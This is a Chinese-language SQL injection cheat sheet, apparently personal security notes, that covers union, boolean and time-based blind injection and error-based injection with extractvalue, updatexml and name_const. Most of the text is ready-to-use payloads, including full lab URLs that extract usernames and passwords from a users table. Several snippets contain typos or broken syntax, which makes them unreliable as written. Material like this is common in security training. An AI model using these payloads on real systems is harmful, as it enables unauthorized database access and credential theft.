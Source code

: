 # SQL注入    
sql注入是搞安全最开始接触到基础漏洞类型吧。  
这篇文章主要包含SQL注入的分类以及实战当中经常使用到的cheatsheet以及一些sql注入的tricky    


## SQL注入cheatsheet 


### 查询数据库基本数据  

#### 查询数据库
```
select schema_name from information_schema.schemata ;
```
show databaes;
#### 查询数据表
```
select table_name from information_schema.tables where table_schema="" ;
```
#### 查询表当中的列 

```
select column_name from information_schea.columns where table_name="";
```

#### union 注入  
union注入最好选择将注入语句放在最后 
```
index.php?id=1' union select 1,2,table_name from information_schema.tables where table_schema= 0x7365637572697479 %23

index.php?id=1' union select 1,2,table_name from information_schema.tables where table_schema= 0x7365637572697479 %23
```





### 注入技巧  
#### 十六进制编码  
**进行注入的时候使用 "" 比较少见 一般是将其转换为 0x 的十六进制形式** 
在mysql当中都可以通用十六进制来进行
```
select concat_ws(0x23,version(),2);
```  
#### base64编码   
```
select convert_from(decode(‘vasndjcn==’,’base64’),’utf-8’)
select chr(num1) || chr(num2) || chr(num3) 只能使用select insert delete
```


### 数据库的连接函数   
几种常见的数据连接函数  
1. concat(str1,str2,...)——没有分隔符地连接字符串
2. concat_ws(separator,str1,str2,...)——含有分隔符地连接字符串
3. group_concat(str1,str2,...)——连接一个组的所有字符串，并以逗号分隔每一条数据    


### 布尔注入   
通过精心构造的语句进行拼接，从而产生真或者假的返回值最后得到返回结果   
#### select case when
```
select case when {判断语句} then sleep(3) else 1 end;
select case when (ascii(substr((select version()),1,1))=58) then sleep(3) else end;  
select case When ascii(substr(concat(user,password),1,1))>53 THEN 1 else 0 end from users limit 0,1;  
```  


#### and if  
```
admin') and if(ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),1,1))=114,1,0) #

admin') and if(ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),1,1))=101,1,0); #
```  

#### and  
```
1' and ascii(substr((select version()),1,1))=53#
1' and ascii(substr(databse(),1,1))<109 #
```

### 报错注入  
通过sql注入当中存在的一些函数，在故意造成错误的情况下会将精心构造的函数进行执行从而造成数据的泄露或者代码的执行  
#### extractvalue

extracvalue从目标的XML文件当中查询的字符串 

```
extractvalue(1,concat(0x7e,(select @@version),0x7e))

http://192.168.233.140:83/Less-5/?id=1%27%20and%20extractvalue(1,concat(0x7e,(select%20concat(username,password)%20from%20security.users%20limit%201,1),0x7e))--+
```
#### updatexml

```
updatexml(1,concat(0x7e,(select @@version),0x7e),1)

http://192.168.233.140:83/Less-5/?id=1%27%20and%20updatexml(1,concat(0x7e,(select%20concat(username,password)%20from%20security.users%20limit%201,1),0x7e),1)--+
```
updatexml的本意是更新xpath文档当中的字符串，我们的xpath_string写错的时候就会出现错误 
#### name_const

感觉平时使用的比较少 
```
select * from (select NAME_CONST(version(),1),NAME_CONST(version(),1))x
http://192.168.233.140:83/Less-5/?id=1%27%20and%20select * from (select NAME_CONST(version(),1),NAME_CONST(version(),1))x--+
```







## referer
[部分payload的来源](https://www.freebuf.com/articles/web/175049.html)
